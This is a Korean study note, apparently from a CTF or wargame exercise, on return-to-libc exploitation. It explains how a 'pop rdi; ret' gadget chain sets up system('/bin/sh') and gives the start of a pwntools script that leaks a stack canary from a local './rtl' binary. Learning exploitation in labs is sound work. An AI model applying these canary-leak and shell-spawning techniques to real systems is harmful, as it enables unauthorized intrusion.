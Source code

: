 리턴 가젯은 반환 주소를 덮는 공격의 유연성을 높여서 익스플로잇에 필요한 조건을 만족할 수 있도록 돕는다.
예를 들어, 이 예제에서는 rdi 값을 "/bin/sh"의 주소로 설정하고, system 함수를 호출해야 한다.
리턴 가젯을 사용하여 반환 주소와 이후의 버퍼를 다음과 같이 덮으면..........
pop rdi로 rdi에 "/bin/sh"의 주소를 설정하고, 이어지는 ret로 system 함수를 호출할 수 있다.

```
addr of ("pop rdi; ret")   <= return address
addr of string "/bin/sh"   <= ret + 0x8
addr of "system" plt       <= ret + 0x10
```

버퍼 오버 플오우 후 리턴 주소 자리에 우리가 적은 값들이 쌓이는 모습은 다음과 같다.
ret addr → "pop rdi ; ret" 가젯의 주소
ret+0x8   → "/bin/sh" 문자열 주소
ret+0x10  → system@plt 주소

#### 📌 실행 순서

1. 함수가 `ret` 할 때 → `rip = pop rdi ; ret` 로 점프
    - 이제 CPU는 `pop rdi ; ret` 가젯을 실행
        
2. `pop rdi ; ret` 실행 → 스택에서 다음 값(`/bin/sh` 주소)을 꺼내서 `rdi`에 넣음
    - 따라서 이 시점에서    
        `rdi = 주소("/bin/sh")`
        
3. 이어서 그 가젯의 `ret`이 실행됨 → 다음 스택 값(`system@plt`)으로 점프
    - 이때는 이미 `rdi = "/bin/sh"` 이므로, system 호출 인자가 준비된 상태    
4. `system@plt` 실행 → 결국 `system("/bin/sh")` 호출


### 4. 익스플로잇

#### 1) 카나리 우회

``` python
#!/usr/bin/env python3
# Name: rtl.py

from pwn import *

p = process('./rtl')
e = ELF('./rtl')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak canary
'''
buf address = [rbp-0x40]
canary address = [rbp-08]
canary의 첫바이트(0x00)까지 침범 : rbp-0x40 - rbp-0x08 = rpb-0x38 + 1 

printf("Buf: %s\n", buf)가 동작할 때:
- %s 는 널(0x00)을 만날 때까지 출력한다.
- 원래 카나리 첫 바이트가 0x00이라면 거기서 끊겨야 하는데, 우리가 그 바이트를 0x41로 바꿔놨으니 끊기지 않고 계속 출력됨.
그래서 출력스트림에는 A * 0x39 다으멩 카나리의 나머지 7바이트가 쭉 흘러나오게 됨.

p.recvuntil(buf)의 역할???
- 프로그램이 에코한 A * 0x39 전부를 깔끔히 소비해서 바로 다음 바이트부터 읽을 수 있게 동기화하는 용도임
- 그렇게 해야 그 다음 p.recvn(7)이 정확히 딱 맞게 카나리의 남은 7바이트를 읽어오게 됨.
- 마지막에 u64(b'\x00' + leaked7)로 첫 바이트(원래 0x00)를 앞에 붙여  정확한 8바이트 카나리를 복원함.
'''
buf = b'A' * 0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)
```
